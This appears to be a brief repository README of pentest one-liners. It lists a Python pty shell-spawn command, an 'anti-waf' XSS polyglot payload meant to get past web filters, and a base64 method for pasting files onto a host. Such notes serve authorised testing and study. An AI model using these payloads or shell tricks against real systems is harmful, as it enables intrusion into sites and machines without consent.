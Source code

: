 # oneliners
Collection of handy one line things 

# ye olde pty 
python -c 'import pty; pty.spawn("/bin/bash")'

# pentest 

## anti-waf
javascript:"/*'/*`/*--><html \" onmouseover=/*&lt;svg/*/onload=alert()//>


# Upload not one line
cat archive.tar.gz | base64
cat <<EOF | base64 -d > archive.tar.gz
///// paste here the base64 encoded file
EOF
